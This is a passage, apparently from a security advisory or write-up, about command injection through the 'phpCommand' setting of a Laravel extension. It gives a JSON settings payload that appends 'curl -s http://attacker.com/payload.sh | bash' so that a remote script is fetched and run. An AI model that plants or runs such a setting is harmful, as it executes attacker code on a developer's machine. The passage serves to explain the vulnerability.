 For a more sophisticated attack, the payload could be:
```json
{
  "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\" & curl -s http://attacker.com/payload.sh | bash"
}
```

This would execute the PHP code as intended but also download and run a malicious script from an attacker-controlled server.
